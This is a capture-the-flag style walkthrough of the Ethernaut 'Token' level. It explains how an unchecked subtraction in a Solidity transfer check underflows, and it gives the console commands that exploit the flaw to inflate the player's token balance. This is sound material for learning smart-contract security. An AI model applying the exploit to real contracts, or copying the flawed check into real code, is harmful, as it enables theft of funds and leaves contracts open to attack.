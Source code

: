 The owner of the funds is not obvious:

```js
// 21000000
await contract.totalSupply()
// 0
await contract.balanceOf(ethernaut.address)
```

Upon inspection of the [transaction than spawns the level][level-spawn], we find the actual creator of the token contract:

```js
// 20999980
await contract.balanceOf('0x478f3476358eb166cb7ade4666d04fbddb56c407')
```

But there is no way to directly transfer tokens from the owner.

Instead, we'll exploit a flaw in the logic:

```solidity
// should be require(balances[msg.sender] >= _value);
require(balances[msg.sender] - _value >= 0);
```

`balances[msg.sender] - _value` is cast to `uint`: the expected negative value is encoded using the "two's complement" and is actually a large number.
This is known as an underflow.

So the check is always satisfied and the underflow will be triggered on the balance of the sender:

```solidity
balances[msg.sender] -= _value;
balances[_to] += _value;
```

If the recipient is the same as the sender, this operation is canceled out by the second statement.
In order to keep the underflowed balance, we can just send the tokens to any other address:

```js
await contract.transfer('0x478f3476358eb166cb7ade4666d04fbddb56c407', 21)
// 21000001
await contract.balanceOf('0x478f3476358eb166cb7ade4666d04fbddb56c407')
// [67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 67108863, 4194303, null]
await contract.balanceOf(player)
````

[level-spawn]: https://dashboard.tenderly.co/tx/sepolia/0x6cc482dd08daec0f127d76b19554c8c508a51b6a07d88577224da8b9ebba413b?trace=0.0
